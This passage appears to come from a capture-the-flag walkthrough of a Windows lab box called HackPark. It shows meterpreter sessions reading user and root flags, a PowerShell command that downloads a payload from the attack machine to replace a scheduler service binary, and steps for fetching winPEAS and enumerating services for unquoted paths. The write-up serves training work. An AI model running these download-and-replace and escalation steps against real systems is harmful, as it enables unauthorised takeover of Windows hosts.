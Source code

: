     powershell -c "Invoke-WebRequest -Uri 'http://IP address attack machine:8080/Message.exe' -OutFile 'C:\Program Files (x86)\SystemScheduler\Message.exe'"

## User flag

```text
meterpreter > getuid 
Server username: HACKPARK\Administrator
meterpreter > cd c:\users\jeff\desktop\
meterpreter > cat user.txt 
```

## Root flag

```text
meterpreter > cd C:\users\administrator\desktop
meterpreter > cat root.txt
```

## Privilege escalation without Metasploit 

Get WinPEAS:

    # wget https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASexe/winPEAS/bin/x64/Release/winPEAS.exe

Start a http server:

    # python -m http.server 8888

In the meterpreter shell, drop into a normal cmd shell, cd in to the Temp folder which is writeable by everyone, 
then use PowerShell to pull winPEAS over:

    meterpreter > shell
    C:\Windows\Temp> powershell -c "Invoke-WebRequest -Uri 'http://<IP address target>:8888/WinPEAS.exe' -OutFile 'c:\windows\temp\winpeas.exe'"
    C:\Windows\Temp> winpeas.exe

A lot of output. The Services Information section:

```text
  ========================================(Services Information)========================================
  [+] Interesting Services -non Microsoft-
   [?] Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
    Amazon EC2Launch(Amazon Web Services, Inc. - Amazon EC2Launch)["C:\Program Files\Amazon\EC2Launch\EC2Launch.exe" service] - Auto - Stopped
    Amazon EC2Launch
   =================================================================================================
    AmazonSSMAgent(Amazon SSM Agent)["C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"] - Auto - Running
    Amazon SSM Agent
   =================================================================================================
    AWSLiteAgent(Amazon Inc. - AWS Lite Guest Agent)[C:\Program Files\Amazon\XenTools\LiteAgent.exe] - Auto - Running - No quotes and Space detected
    AWS Lite Guest Agent
   =================================================================================================
```